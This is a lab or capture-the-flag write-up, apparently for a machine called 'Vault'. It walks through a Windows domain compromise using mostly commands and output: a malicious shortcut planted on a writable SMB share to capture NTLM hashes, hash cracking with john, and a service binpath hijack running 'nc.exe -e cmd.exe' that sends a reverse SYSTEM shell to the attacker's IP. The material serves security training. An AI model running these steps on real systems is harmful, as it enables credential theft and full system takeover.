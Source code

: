 # Vault

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.240.172
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 15:05 +08
Nmap scan report for 192.168.240.172
Host is up (0.18s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
9389/tcp  open  adws
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49671/tcp open  unknown
49689/tcp open  unknown
49704/tcp open  unknown
```

Loads of ports.&#x20;

### Guest Shares

There were some shares that `smbmap` picked up on with `guest` credentials:

```
$ smbmap -u guest -p '' -H 192.168.240.172                  
[+] IP: 192.168.240.172:445     Name: 192.168.240.172                                   
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DocumentsShare                                          READ, WRITE
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        SYSVOL                                                  NO ACCESS       Logon server share
```

Within the DocumentsShare share, there was nothing within it:

```
$ smbclient -U guest //192.168.240.172/DocumentsShare 
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Fri Jul  7 15:06:47 2023
  ..                                  D        0  Fri Jul  7 15:06:47 2023

                7706623 blocks of size 4096. 656179 blocks available
```

There was nothing else about this machine. This reminded me of a few HTB machines where we had to place a malicious file that would trigger a user to click on, which would send requests to our attacker machine and allow us to capture NTLM hashes on `responder`.&#x20;

There a few methods of creating such files, but I used this repository:

{% embed url="https://github.com/dievus/lnkbomb" %}

```
$ python3 lnkbomb.py -t \\192.168.240.172\DocumentsShare -a 192.168.45.216


██      ███    ██ ██   ██ ██████   ██████  ███    ███ ██████
██      ████   ██ ██  ██  ██   ██ ██    ██ ████  ████ ██   ██
██      ██ ██  ██ █████   ██████  ██    ██ ██ ████ ██ ██████
██      ██  ██ ██ ██  ██  ██   ██ ██    ██ ██  ██  ██ ██   ██
███████ ██   ████ ██   ██ ██████   ██████  ██      ██ ██████

                 Malicious Shortcut Generator               
                    A project by The Mayor                  

Malicious shortcut named fuxiylyrbv.url created in the \192.168.240.172DocumentsShare file share.

Recovery file fuxiylyrbv.recovery created in your current directory.

Run python3 lnkbomb.py -r fuxiylyrbv.recovery to remove the file from the target share.

$ mv '\192.168.240.172DocumentsShare\fuxiylyrbv.url' test.url
```

Afterwards, we can place this file within the share and start a `responder` instance, which would immediately capture a hash:

<figure><img src="../../../.gitbook/assets/image (3404).png" alt=""><figcaption></figcaption></figure>

This can be cracked almost instantly:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
SecureHM         (anirudh)     
1g 0:00:00:03 DONE (2023-07-07 15:13) 0.2857g/s 3031Kp/s 3031Kc/s 3031KC/s Seifer@14..Schsutar90
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

Then, we can `evil-winrm` in:

<figure><img src="../../../.gitbook/assets/image (2018).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Server Operators --> DA

Our current user was part of the Server Operators group:

```
*Evil-WinRM* PS C:\Users\anirudh\Documents> net user anirudh
User name                    anirudh
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            11/19/2021 1:59:51 AM
Password expires             Never
Password changeable          11/20/2021 1:59:51 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/17/2023 2:43:54 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

Since we are part of this group, we can do loads of things like manipulate services and what not.&#x20;

```
*Evil-WinRM* PS C:\Users\anirudh\Documents> services

Path                                                                           Privileges Service          
----                                                                           ---------- -------          
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS             
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost         
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense            
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller 
"C:\Program Files\VMware\VMware Tools\VMware VGAuth\VGAuthService.exe"               True VGAuthService    
"C:\Program Files\VMware\VMware Tools\vmtoolsd.exe"                                  True VMTools          
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2111.5-0\NisSrv.exe"        True WdNisSvc         
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2111.5-0\MsMpEng.exe"       True WinDefend        
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc
```

We can abuse the VMTools service.

```
sc.exe config VMTools binpath="C:\Windows\Tasks\nc.exe -e cmd.exe 192.168.45.216 21"
sc.exe stop VMTools
sc.exe start VMTools
```

A SYSTEM shell would spawn on a listener port:

<figure><img src="../../../.gitbook/assets/image (2539).png" alt=""><figcaption></figcaption></figure>

Rooted!
